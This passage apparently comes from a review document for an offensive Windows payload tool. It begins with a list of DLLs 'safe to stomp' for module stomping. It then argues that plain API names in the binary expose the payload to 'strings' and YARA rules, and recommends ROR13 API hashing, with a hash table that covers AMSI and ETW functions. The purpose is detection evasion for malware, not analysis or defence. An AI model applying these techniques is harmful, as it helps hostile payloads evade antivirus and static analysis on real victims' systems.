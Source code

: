 ```python
        Get list of DLLs safe to stomp
        Criteria: Loaded but not actively used
        """
        return [
            'wwanapi.dll',      # WWAN API (rarely used)
            'wlanapi.dll',      # WLAN API (if not using WiFi)
            'sensapi.dll',      # Sensor API
            'winhttp.dll',      # If using WinINet instead
            'cryptnet.dll',     # Crypto network
            'webio.dll',        # Web IO
        ]
```

**Impact:** ✅ **YARA evasion, appears as legitimate Windows DLL**

---

### ISSUE #7: No API Hashing = String Scanning Detection

**Location:** Throughout Core/  
**Severity:** 🟡 MEDIUM  
**Detection:** Strings tool shows all APIs used

**Current Approach:**
```python
# DETECTABLE - function names in strings
self.kernel32.VirtualAlloc(...)
self.ntdll.NtCreateThreadEx(...)
```

**Why This is Weak:**
- ❌ `strings payload.exe` shows all API names
- ❌ **YARA rules** match on API name strings
- ❌ **Static analysis** reveals capabilities

**Research Reference:**
- **Metasploit block_api (2004+)** - First implementation
- **"API Hashing in Malware" - FireEye**
- **Used by:** 80%+ of advanced malware

**Solution (Industry Standard):**
```python
# Pre-compute hashes (at build time)
API_HASHES = {
    'VirtualAlloc': 0x91AFCA54,      # ROR13 hash
    'VirtualProtect': 0x7946C61B,
    'CreateThread': 0x16B3FE88,
    'NtAllocateVirtualMemory': 0xF783B8EC,
    'AmsiScanBuffer': 0x9B4C8D73,
    'EtwEventWrite': 0xE19D5C42,
    # ... all APIs
}

# Resolve at runtime by hash only
virtual_alloc = self._resolve_api(0x91AFCA54)  # VirtualAlloc
# String "VirtualAlloc" never appears in binary
```
